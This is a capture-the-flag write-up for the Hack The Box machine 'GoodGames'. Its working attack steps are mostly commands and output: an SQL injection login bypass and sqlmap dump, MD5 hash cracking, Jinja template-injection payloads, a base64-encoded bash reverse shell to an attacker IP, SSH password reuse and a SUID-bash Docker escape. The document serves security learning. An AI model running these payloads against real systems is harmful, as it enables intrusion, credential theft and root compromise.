





# GoodGames

.png>)

***

## Intro

| Box Info            |        |
| ------------------- | ---------------------------------------------------- |
| 🔗 Name             | [GoodGames](https://app.hackthebox.com/machines/446) |
| 🎯 Target IP        | `10.10.11.130`                                       |
| 📈 Difficulty level | 🟩Easy                                               |
| 🐧OS                | Linux                                                |

***

## Recon

```bash
mkdir -p $HOME/htb/goodgames/nmap
cd $HOME/htb/goodgames
```

Start Reconnaissance

```bash
# Fast full TCP port scan
nmap -p- --min-rate 10000 10.10.11.130
```

```bash
PORT   STATE SERVICE
80/tcp open  http
```

```bash
# Scan open ports with default scripts and version detection
nmap -p 80 -sC -sV -Pn -vv -oA nmap/goodgames 10.10.11.130
```

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB


```

Browse to `http://10.10.11.130:80`

* Python webserver
* Login page found
* Footer says `GoodGames.htb`

Add the found values to the `/etc/hosts` file

```bash
# e.g. adeguate with found values, hostnames, ffuf
sudo sh -c 'echo "10.10.11.130 goodgames.htb" >> /etc/hosts' && ping -c 3 goodgames.htb

# At the end of the box
# To clean up the last line from the /etc/hosts file
sudo sed -i '$ d' /etc/hosts
```

### Directory Brute Force

```bash
feroxbuster -u http://goodgames.htb

[...]
302      GET        4l       24w      208c http://goodgames.htb/logout => http://goodgames.htb/
200      GET      663l     1856w    31374c http://goodgames.htb/blog/1
200      GET      909l     2572w    44212c http://goodgames.htb/blog
200      GET      730l     2069w    32744c http://goodgames.htb/forgot-password
200      GET      728l     2070w    33387c http://goodgames.htb/signup
200      GET     1735l     5548w    85107c http://goodgames.htb/
403      GET        9l       28w      278c http://goodgames.htb/server-status
```

Start BurpSuite and intercept traffic from browser via FoxyProxy.

* Create an account at `http://10.10.11.130/signup`


* Try to login - Successful - it redirect to `/profile`


***

## Exploitation

### SQL Injection - sqlmap

* `Edit Details` form does not work - always returns `HTTP 500`
* Check the login form for **SQL injection** using the intercepted request **in BurpSuite** (with a valid email), since the client-side JavaScript requires a valid email address to submit.

```bash
# Payload for BurpSuite Request

email=admin' or 1 = 1 -- -&password=Passw0rd
```

* It redirects to the `admin`'s profile pages




* Save the request with correct email login and run `sqlmap` on it

```bash
sqlmap -r goodgames.req
```

```bash
[...]
[22:53:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:53:54] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:53:55] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=syselement@syselement.com' AND (SELECT 6349 FROM (SELECT(SLEEP(5)))LPBZ) AND 'KZzK'='KZzK&password=Passw0rd!
---
[22:54:37] [INFO] the back-end DBMS is MySQL 5.0.12
```

* Enumerate the database and tables, checking for sensitive information

```bash
sqlmap -r goodgames.req --dbs

    available databases [2]:
    [*] information_schema
    [*] main

sqlmap -r goodgames.req main --tables

    [23:04:22] [INFO] retrieved: user
    [...]
```

* Extract all the data from the `user` tables

```bash
sqlmap -r goodgames.req --batch -D main -T user --dump
```

```bash
Table: user
[2 entries]
+----+---------------------------+------------+----------------------------------------------+
| id | email                     | name       | password                                     |
+----+---------------------------+------------+----------------------------------------------+
| 1  | admin@goodgames.htb       | admin      | 2b22337f218b2d82dfc3b6f77e7cb8ec             |
| 2  | syselement@syselement.com | syselement | 47b7bfb65fa83ac9a71dcb0f6296bb6e (Passw0rd!) |
+----+---------------------------+------------+----------------------------------------------+
```

### SQL injection - manual

This can be done manually too - check [HTB: GoodGames | 0xdf](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html) writeup

* Dump the full DB with `UNION` injection

```bash
POST /login HTTP/1.1
Host: 10.10.11.130
Content-Length: 59
Cache-Control: max-age=0
Origin: http://10.10.11.130
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://10.10.11.130/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=' union select 1,2,3,database()-- -&password=Passw0rd

```

```bash
# Response
<h2 class="h4">Welcome main</h2>
```

* Get `main` database's tables

```bash
email=' union select 1,2,3,concat(table_name, ',') from information_schema.tables where table_schema = 'main'-- -&password=Passw0rd

<h2 class="h4">Welcome blog,blog_comments,user,</h2>
```

* Get `users`

```bash
email=' union select 1,2,3,concat(column_name, ',') from information_schema.columns where table_name = 'user'-- -&password=Passw0rd

<h2 class="h4">Welcome email,id,name,password,</h2>
```

```bash
email=' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -&password=Passw0rd

<h2 class="h4">Welcome 1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec2:syselement:syselement@syselement.com:47b7bfb65fa83ac9a71dcb0f6296bb6e</h2>
```

* Dumped users are

```bash
1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
2:syselement:syselement@syselement.com:47b7bfb65fa83ac9a71dcb0f6296bb6e
```

### Crack the hash

Try to crack admin's hash `2b22337f218b2d82dfc3b6f77e7cb8ec` with [https://crackstation.net/](https://crackstation.net/) or search Google

```bash
# Cracked hash is
superadministrator
```

```bash
# Or with hashcat
hashcat hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -m 0

2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator       
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 2b22337f218b2d82dfc3b6f77e7cb8ec
Time.Started.....: Mon Jul  7 01:12:28 2025 (16 secs)
Time.Estimated...: Mon Jul  7 01:12:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16653.5 kH/s (4.33ms) @ Accel:512 Loops:77 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 267688960/1104517645 (24.24%)
Rejected.........: 0/267688960 (0.00%)
Restore.Point....: 3475456/14344385 (24.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: supercecy01 -> s713!s
Hardware.Mon.#1..: Util: 97%
```

📌 Login with `admin@goodgames.htb:superadministrator`

* As admin, there is an extra gear icon at the top right of the page, that links to
  * `http://internal-administration.goodgames.htb/login`

```bash
# Add to /etc/hosts
10.10.11.130 goodgames.htb internal-administration.goodgames.htb
```

### SSTI

Visit the page `http://internal-administration.goodgames.htb/login` and try to login with `admin:superadministrator`




Test for **SSTI** (Server Side Template Injection) in the Python Flask application

* [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
* [PayloadsAllTheThings/Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

Open user's **Settings** and try the following payload in the **Full Name** input field

```bash
{{7*7}}
```

* It changed the username to the result of `49`



* Find which template engine it is using

```bash
{{7*'7'}}
# Results to
7777777
```

* The template engine is `Jinja`
* Check system commands execution via the following SSTI

```bash
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```



* It works, and is `root` too
* Get a reverse shell with the same payload, encoding the payload to base64 first

```bash
echo -ne 'bash -i >& /dev/tcp/10.10.14.29/1234 0>&1' | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS8xMjM0IDA+JjE=

# Start a listener
nc -nvlp 1234
```

```bash
# SSTI with payload
{{ namespace.__init__.__globals__.os.popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yOS8xMjM0IDA+JjE="|base64 -d|bash').read() }}
```



* Get a better shell

```bash
script /dev/null -c bash
	CTRL+Z
stty raw -echo; fg
# Hit ENTER when cursor blinks
reset
	Terminal type? screen
export TERM=xterm
```

```bash
root@3a453ab39d3d:/backend# ip -o a
1: lo    inet 127.0.0.1/8 scope host lo\       valid_lft forever preferred_lft forever
5: eth0    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0\       valid_lft forever preferred_lft forever
```

* By checking the IP, it can be found out the reverse shell is inside a Docker container

***

## Foothold

```bash
root@3a453ab39d3d:/backend# ls -lah project/
total 48K
drwxr-xr-x 1 root root 4.0K Nov  3  2021 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
-rw-r--r-- 1 root root  142 Nov  3  2021 .env
-rw-r--r-- 1 root root   36 Nov  3  2021 Procfile
drwxr-xr-x 1 root root 4.0K Jul  6 21:41 apps
drwxr-xr-x 2 root root 4.0K Nov  3  2021 media
-rw-r--r-- 1 root root  626 Nov  3  2021 package.json
-rw-r--r-- 1 root root  208 Nov  3  2021 requirements.txt
-rw-r--r-- 1 root root  933 Nov  3  2021 run.py

root@3a453ab39d3d:/backend# cat project/.env
DEBUG=True
SECRET_KEY=S3cr3t_K#Key
DB_ENGINE=postgresql
DB_NAME=appseed-flask
DB_HOST=localhost
DB_PORT=5432
DB_USERNAME=appseed
DB_PASS=pass

root@3a453ab39d3d:/backend# df -hT
Filesystem     Type     Size  Used Avail Use% Mounted on
overlay        overlay  6.3G  4.7G  1.3G  79% /
tmpfs          tmpfs     64M     0   64M   0% /dev
tmpfs          tmpfs    2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda1      ext4     6.3G  4.7G  1.3G  79% /home/augustus
shm            tmpfs     64M     0   64M   0% /dev/shm
tmpfs          tmpfs    2.0G     0  2.0G   0% /proc/acpi
tmpfs          tmpfs    2.0G     0  2.0G   0% /sys/firmware

root@3a453ab39d3d:/backend# ls -lah /home/augustus/
total 24K
drwxr-xr-x 2 1000 1000 4.0K Dec  2  2021 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Jul  6 20:15 user.txt
```

```bash
# User Flag
cat /home/augustus/user.txt 
dc2bb***************************
```

* The `1000` UID hints that the user's home is mounted inside the Docker container from the main system, since there is no `augustus` user or `1000` UID in the container's `/etc/passwd`
  * confirm it with `mount`

```bash
root@3a453ab39d3d:~# cat /etc/passwd | grep 1000

root@3a453ab39d3d:~# cat /etc/passwd | grep augustus

root@3a453ab39d3d:/backend# mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

### Shell as user augustus

```bash
root@3a453ab39d3d:~# ip route
default via 172.19.0.1 dev eth0 
172.19.0.0/16 dev eth0 proto kernel scope link src 172.19.0.2 
```

Knowing the container's IP is `172.19.0.2` and the host machine is the gateway with IP `172.19.0.1`, let's try to enumerate host's ports, from inside the container using a `bash` one-liner TCP port scanner:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

```bash
port 22 is open
port 80 is open
```

* `SSH` is listening internally. Attempt a password reuse for both `root` and `augustus` accounts
  * 📌 `augustus:superadministrator` works!

```bash
ssh augustus@172.19.0.1
```

```bash
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)

augustus@GoodGames:~$ ip -o a
1: lo    inet 127.0.0.1/8 scope host lo\       valid_lft forever preferred_lft forever
1: lo    inet6 ::1/128 scope host \       valid_lft forever preferred_lft forever
2: eth0    inet 10.10.11.130/24 brd 10.10.11.255 scope global eth0\       valid_lft forever preferred_lft forever
2: eth0    inet6 dead:beef::250:56ff:fe94:5b3b/64 scope global dynamic mngtmpaddr \       valid_lft 86398sec preferred_lft 14398sec
2: eth0    inet6 fe80::250:56ff:fe94:5b3b/64 scope link \       valid_lft forever preferred_lft forever
3: br-99993f3f3b6b    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-99993f3f3b6b\       valid_lft forever preferred_lft forever
3: br-99993f3f3b6b    inet6 fe80::42:67ff:fe07:b7a3/64 scope link \       valid_lft forever preferred_lft forever
4: docker0    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0\       valid_lft forever preferred_lft forever
6: veth05d6236    inet6 fe80::34ad:bcff:fefb:32b2/64 scope link \       valid_lft forever preferred_lft forever

augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:fe94:5b3b 
```

* The shell is the GoodGames host itself

***

## Privilege Escalation

### Docker Escape

* Docker is in the process list, confirming the app is hosted within a Docker container

```bash
augustus@GoodGames:~$ ps aux | grep docker
root       866  0.0  2.0 1457176 84484 ?       Ssl  21:14   0:01 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root      1324  0.0  0.2 1148904 11688 ?       Sl   21:14   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
```

### Shell as root

* The `augustus` home contains the same files as inside the container
* Files can be written in the host and change their permissions to root within the container, reflecting the permissions on the host system as well

Copy host's `bash` binary to the user's directory and exit the SSH session

* The `bash` binary must be **the one from the host**, not from the container (which uses an older library)

```bash
# On Host
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
```

Apply `SUID` permissions and change the ownership of the `bash` executable to `root:root` from within the Docker container

```bash
# On Container
root@3a453ab39d3d:/backend# cd /home/augustus/

root@3a453ab39d3d:/home/augustus# ls -lh bash
-rwsr-xr-x 1 root root 1.2M Jul  6 22:12 bash

root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
```

* SSH back into the host
  * changes to `bash` file are reflected

```bash
ssh augustus@172.19.0.1

augustus@GoodGames:~$ ls -lh bash 
-rwsr-xr-x 1 root root 1.2M Jul  6 23:12 bash
```

* Spawn a shell with the effective UID (`euid`) of root

```bash
augustus@GoodGames:~$ ./bash -p

bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
```

```bash
# Root Flag
bash-5.1# cat /root/root.txt 
e88fa***************************
```

***

## Summary

1. Nmap scan showed only port **80** open.
2. Login page vulnerable to time-based **SQL injection**; dumped database with `sqlmap`.
3. **Cracked admin hash** and logged into the main site.
4. Found Flask app login and accessed it via **password reuse**.
5. Exploited Flask **SSTI vulnerability** to get a **reverse shell in a Docker container**.
6. Container had the host’s `/home/augustus` directory **mounted**.
7. Reused the same password to **SSH into the host** as `augustus`, from the container.
8. Used the mounted home directory to drop a **SUID** `bash` binary and escalate to root.

***

## Extra

* [HTB: GoodGames | 0xdf hacks stuff](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html)
* [SQLi, SSTI & Docker Escapes / Mounted Folders - HackTheBox University CTF "GoodGame" - John Hammond](https://www.youtube.com/watch?v=0oTuH_xY3mw)

***
